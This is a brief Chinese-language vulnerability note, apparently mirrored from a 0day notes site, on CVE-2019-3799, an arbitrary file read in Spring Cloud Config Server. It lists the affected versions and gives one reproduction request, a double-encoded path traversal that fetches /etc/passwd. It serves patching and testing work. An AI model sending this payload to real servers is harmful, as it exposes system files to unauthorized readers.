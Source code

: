 # （CVE-2019-3799）任意文件读取

> 原文：[http://book.iwonder.run/0day/Spring Cloud Config Server/1.html](http://book.iwonder.run/0day/Spring Cloud Config Server/1.html)

## 一、漏洞简介

## 二、漏洞影响

Spring Cloud Config 2.1.0 to 2.1.1

Spring Cloud Config 2.0.0 to 2.0.3

Spring Cloud Config 1.4.0 to 1.4.5

其他不受支持的老版本 （如 Spring Cloud Config1.3 及其以下版本）

## 三、复现过程

```
/test/pathtraversal/master/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f../etc/passwd 
```

